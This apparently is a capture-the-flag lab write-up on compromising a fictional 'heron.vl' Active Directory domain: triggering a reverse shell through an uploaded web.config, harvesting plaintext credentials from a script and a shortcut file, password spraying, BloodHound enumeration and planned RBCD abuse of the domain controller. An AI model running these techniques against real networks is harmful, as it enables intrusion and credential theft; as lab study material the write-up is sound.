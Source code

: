 
Uploading the new web.config and using python3 and nc on the jump box to stage and catch the reverse shell. 

Then going to `http://accounting.heron.vl/shell.me` to trigger the payload.

This worked!! Now we are:
```
PS C:\webaccounting> whoami
heron\svc-web-accounting
```

The shell is super unstable but that doesnt matter as looking shows there is a file with ssh creds!
```
PS C:\windows\scripts> type ssh.ps1
$plinkPath = "C:\Program Files\PuTTY\plink.exe"
$targetMachine = "frajmp"
$user = "_local"
$password = "Deplete5DenialDealt"
& "$plinkPath" -ssh -batch $user@$targetMachine -pw $password "ps auxf; ls -lah /home; exit"
```

This user is also in the sudo group and can run ALL ALL as root.
```
_local@frajmp:~$ id
uid=1000(_local) gid=1000(_local) groups=1000(_local),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
_local@frajmp:~$ sudo -l 
Matching Defaults entries for _local on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User _local may run the following commands on localhost:
    (ALL : ALL) ALL
```

Going to password spray again to see if there is password reuse.
```
proxychains -q nxc ldap heron.vl -u users.txt -p Deplete5DenialDealt
LDAP        10.10.172.101       389    MUCDC            [+] heron.vl\julian.pratt:Deplete5DenialDealt
```

Logging into the `home$` share as this user gives us more creds in a `.lnk` file.
```
adm_prju@mucjmp -pw ayDMWV929N9wAiB4
```

Now is probs a good time to run bloodhound.
```
proxychains -q ./bloodhound.py -d heron.vl -u adm_prju -p ayDMWV929N9wAiB4 -c all -ns 10.10.172.101 --zip -dc MUCDC.heron.vl
```

The domain admin is called `_admin` and the `adm_prju` user has WriteAccountRestrictions over the domain controller. This means we can configure RBCD for the DC and request a ticket on behalf of a domain admin.
